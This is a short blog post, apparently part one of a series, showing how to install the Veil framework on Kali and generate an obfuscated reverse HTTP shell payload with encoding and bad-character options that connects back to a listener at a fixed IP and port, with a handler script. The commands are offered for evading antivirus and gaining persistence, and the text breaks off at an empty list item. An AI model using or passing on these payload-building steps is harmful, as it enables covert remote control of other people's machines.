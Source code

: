 +++
title = "Reverse Shell with Code Obfuscating Part 1 of 2"
date = 2018-01-06T19:15:55-05:00
draft = false
comments = true
categories = ["Security OS", "Tools"] 
description = "" 
tags = ["encryption", "kali", "persistence"]
image = "/img/remote-shell/code-obfuscating.jpg"

+++

## Reverse Shell with Code Obfuscating Part 1 of 2

Veil is the union of two programs, Veil-Evasion and Veil-Ordnance. ...

### Create the payload using the Veil Framework

- Download Veil `sudo apt-get update && sudo apt-get install veil`. It may take a while, it will download a lot of dependencies like ... Veil should be located in /usr/share/veil.

- To list Veil-Evasion payloads `./Veil.py -t Evasion --list-payloads`. To create the payload, we can use the Veil command line `./Veil.py -t Evasion -p 29 --ordnance-payload rev_http --ip 192.168.0.101 --port 19370 -e xor -b \\x00\\x0a -o filename` where 29 corresponds to the /python/shellcode_inject/aes_script payload. The script will create the executable file and a resource script file for c++ (.rc) that creates the handler that waits for an incoming connexion.

4. ``